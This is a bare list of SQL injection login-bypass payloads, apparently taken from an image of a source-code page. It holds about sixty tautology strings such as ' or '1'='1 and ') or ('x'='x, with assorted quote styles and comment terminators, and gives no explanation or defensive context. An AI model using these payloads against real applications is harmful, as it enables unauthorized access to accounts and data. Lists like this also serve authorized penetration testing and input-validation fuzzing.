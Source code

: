 ```
' or '1'='1
' or '1'='1'--
' or '1'='1'/*
' or '1'='1'#
' or '1′='1
' or 1=1
' or 1=1 --
' or 1=1 –
' or 1=1;#
' or 1=1/*
' or 1=1#
' or 1=1–
') or '1'='1
') or '1'='1--
') or '1'='1'--
') or '1'='1'/*
') or '1'='1'#
') or ('1'='1
') or ('1'='1--
') or ('1'='1'--
') or ('1'='1'/*
') or ('1'='1'#
'or'1=1
'or'1=1′
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 –
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1–
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1′='1–
) or ('1′='1–
' or 1=1 LIMIT 1;#
'or 1=1 or ''='
"or 1=1 or ""="
' or a=a--
' or a=a–
" or "a"="a
") or ("a"="a
') or ('a'='a and hi") or ("a"="a
' or 'one'='one
' or 'one'='one–
' or uid like '%
' or uname like '%
' or userid like '%
' or user like '%
' or username like '%
') or ('x'='x
' OR 'x'='x'#;
'=' 'or' and '=' 'or'
```